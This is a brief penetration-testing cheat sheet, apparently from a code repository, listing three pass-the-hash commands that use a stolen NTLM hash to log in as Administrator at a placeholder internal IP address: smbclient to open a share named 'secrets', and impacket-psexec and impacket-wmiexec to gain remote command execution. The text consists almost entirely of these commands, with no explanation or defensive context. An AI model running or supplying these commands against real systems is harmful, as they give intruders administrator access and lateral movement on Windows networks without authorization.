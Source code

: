 smbclient
```
smbclient \\\\192.168.x.x\\secrets -U Administrator --pw-nt-hash NTLMHASH
```

psexec
```
impacket-psexec -hashes 00000000000000000000000000000000:NTLMHASH Administrator@192.168.x.x
```

wmiexec
```
impacket-wmiexec -hashes 00000000000000000000000000000000:NTLMHASH Administrator@192.168.x.x
```